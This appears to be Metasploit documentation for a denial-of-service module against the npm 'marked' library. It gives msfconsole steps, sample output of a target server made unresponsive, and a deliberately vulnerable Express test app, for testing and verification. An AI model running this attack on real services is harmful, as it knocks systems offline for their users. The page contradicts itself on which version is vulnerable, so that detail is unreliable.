## Vulnerable Application

This auxiliary module exploits a Regular Expression Denial of Service vulnerability
in the npm module `marked`.  The vulnerable regex is in the "heading" processing. 
Versions before 0.3.19 are vulnerable.
Any application that uses a vulnerable version of this module and passes untrusted input
to the module will be vulnerable.

## How to Install

To install a vulnerable version of `marked`, run:
```
npm i marked@0.3.19
```

## Verification Steps

Example steps in this format (is also in the PR):

1. Create a new directory for test application.
2. Copy below example server into test application directory as `server.js`.
3. Run `npm i express` to install express in the test application directory.
4. To test vulnerable versions of the module, run `npm i marked@0.3.19` to install a vulnerable version of marked.
5. To test non-vulnerable versions of the module, run `npm i marked` to install the latest version of marked.
6. Once all dependencies are installed, run the server with `node server.js`.
7. Open up a new terminal.
8. Start msfconsole.
9. `use auxiliary/dos/http/marked_redos`.
10. `set RHOST [IP]`.
11. `set HTTP_METHOD get` (optional)
12. `set HTTP_PARAMETER foo` (required)
13. `set TARGETURI /path/to/vulnerable/route` (optional)
14. `run`.
15. In vulnerable installations, Module should have positive output and the test application should accept no further requests.
16. In non-vulnerable installations, module should have negative output and the test application should accept further requests.

## Scenarios

### marked npm module version 0.3.19

Expected output for successful exploitation:

```
[*] Testing Service to make sure it is working.
[*] Test request successful, attempting to send payload
[*] Sending ReDoS request to 192.168.3.24:3000.
[*] No response received from 192.168.3.24:3000, service is most likely unresponsive.
[*] Testing for service unresponsiveness.
[+] Service not responding.
[*] Auxiliary module execution completed
```

### Example Vulnerable Application

```
// npm i express body-parser
// npm i marked@0.3.19 (vulnerable)
// npm i marked (non-vulnerable)

const marked = require('marked');
const express = require('express');
const bodyParser = require('body-parser');

var app = express();
app.use(bodyParser.text({ type: 'text/html' }));

// create application/json parser
const jsonParser = bodyParser.json();

// create application/x-www-form-urlencoded parser
const urlencodedParser = bodyParser.urlencoded({ extended: false });

app.get("/", urlencodedParser, function(req, res) {
  var result = req.query.foo ? marked(req.query.foo) : 'nothing';
  res.end(result);
});

app.post("/cat", urlencodedParser, function(req, res) {
  var result = req.body.bar ? marked(req.body.bar) : 'nothing'
  res.end(result);
});

app.listen(3000, '0.0.0.0', function() { console.log('Application listening on port 3000 on all interfaces!'); });
```
